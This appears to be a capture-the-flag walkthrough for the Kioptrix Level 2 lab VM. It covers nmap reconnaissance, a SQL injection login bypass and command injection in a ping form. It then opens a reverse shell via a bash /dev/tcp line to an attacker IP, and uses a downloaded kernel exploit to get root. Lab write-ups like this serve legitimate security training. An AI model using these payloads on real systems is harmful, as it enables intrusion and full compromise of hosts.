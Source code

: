 # Kiotrix Level 2
## Setup:
1. Download the Kioptrix VM from [Kioptrix level 2](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).
2. Use RAR to extract the compressed file.
3. Launch VMware player and select the "Kioptrix level 2.vmx" file.(since Kipotrix uses DHCP, I used Bridged Networking)
4. Create a Kioptrix_2 directory within root's home directory, on the system.
## Information Gathering:
Netdiscover:

We use this scanner to discover the vulnerable IP 
Here I got the IP of the vulnerable machine as 192.168.0.170 
### Nmap:

After the ip has been found, we use nmap    
```bash
nmap -sS -A -n [ip] 
``` 
to find all the open ports and services running. After the scan we can see that there is MySql running on port 3306. From that we can assume that this site is connected to a database.  
## Exploit
### SQL Injection and Command Injection:

When we navigate to the site hosted by the VM, we get a login page which consists of user and password input fields. Here we can try to login using SQL Injection. 

When we enter 1' or '1'='1 on both username and password it will alter the SQL query in a way that it returns true for both the input fields. Then we can move on to a console which pings the input entered.

 Here we can try using command injection and it works i.e we can terminate the ping command using ‘ ; ‘ and continue to enter commands and execute.
 
  By taking advantage of this command injection vulnerability we can invoke a reverse shell. To create it, first we start a netcat listener on attackers machine for port 555 using nc -nlvp 555 and enter 
```bash 
;bash -i >& /dev/tcp/192.168.1.120/555 0>&1
```
In the input field to create a reverse shell

After connecting to the victims machine, we will check Linux version that the machine is running on using 
```bash
cat /proc/version 
```
We will get the output as **Linux version 2.6.9-55.EL (mockbuild@builder6.centos.org) (gcc version 3.4.6 20060404 (Red Hat 3.4.6-8))** 

### Exploit: 

Next we have to search about the linux version and we can find that there is a Privilege Escalation Exploit.

 https://www.exploit-db.com/exploits/9542 

After downloading this exploit we can find that it is a c file and from the reverse shell we can find out there is a gcc compiler present.

So what we have to do is we have to move that exploit file to the victims machine.Then we have to move the exploit file to 
```bash
var/www/html 
```
directory and start an apache server using 
```bash
service apache2 start 
```
Then we have to move to /tmp directory in the reverse shell and get the contents by connecting to the attackers machine and using wget command to get the exploit file.
 
Then we have to compile the exploit file using 
```bash
gcc exploit.c -o exploit
``` 
Then we can get root access by running the executable file.